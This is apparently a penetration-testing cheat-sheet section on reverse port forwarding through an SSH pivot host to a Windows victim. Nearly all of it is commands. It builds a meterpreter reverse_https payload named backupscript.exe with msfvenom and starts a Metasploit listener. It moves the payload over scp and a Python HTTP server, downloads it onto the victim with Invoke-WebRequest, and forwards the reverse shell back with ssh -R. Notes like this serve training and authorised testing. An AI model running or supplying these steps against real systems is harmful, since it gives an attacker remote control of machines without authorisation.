

## Reverse Port Forwarding (WINDOWS)



### Using SSH as Pivot

- **SCENARIO :**
	- Lets say we want to use our pivot machine to sent our reverse shell payload to a machine present in the internal network of the pivot machine. Sending the reverse shell payload directly will not work as the machine will simply drop the packet. In this scenario lets consider the Victim Machine we want to send our reverse shell payload to is a Windows machine.

### 1. Create a Windows Reverse Shell using `msfvenom`

- We will be mentioning the IP address and port `8080` of the pivot host through which we will be redirecting the reverse shell packets to our attack host at port `8000`.

```bash
msfvenom -p windows/x64/meterpreter/reverse_https lhost=<INTERNAL_IP_OF_PIVOT_MACHINE> -f exe -o backupscript.exe LPORT=8080
```

### 2. Configuring & Starting Listener using `msfconsole`

- Here `multi/handler` is a generic payload listener module.
- Run the below commands inside the **metasploit** or `msfconsole`.

```bash
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_https
set lhost 0.0.0.0
set lport 8000
run
```

### 3. Transferring Payload to Pivot Host

- After the **metasploit** listener has been setup, you need to send/transfer the **reverse shell payload** to the pivot machine.

```bash
scp backupscript.exe <USERNAME>@<PIVOT_HOST_IP>:~/
```

### 4. Setting Up Python HTTP server on Pivot Host

- Setting up the python http server in the pivot host so that the Windows Victim Machine can copy the file from the Pivot Machine.

```bash
python3 -m http.server 8123
```

### 5. Download the Payload to Victim Machine (Windows)

- Downloading the **reverse shell payload** from the pivot machine.

```powershell
Invoke-WebRequest -Uri "http://<PIVOT_HOST_IP>:8123/backupscript.exe" -OutFile "C:\backupscript.exe"
```

### 6. SSH Remote Port Forwarding

- Configuring the SSH so that when we execute the **reverse shell payload** in the Windows machine the reverse packets travel via Pivot Host at port `8080` and then to our Attack Host Machine listening on port `8000` setup using the **metasploit** or `msfconsole`.

```bash
ssh -R <PIVOT_HOST_IP>:8080:0.0.0.0:8000 <USERNAME>@<PIVOT_MACHINE_IP> -vN
```

### 7. Executing the Payload and Checking the Listener

- First execute the `backupscript.exe` file in the Victim Machine (Windows).
- Then check the listener in the metasploit(`msfconsole`).


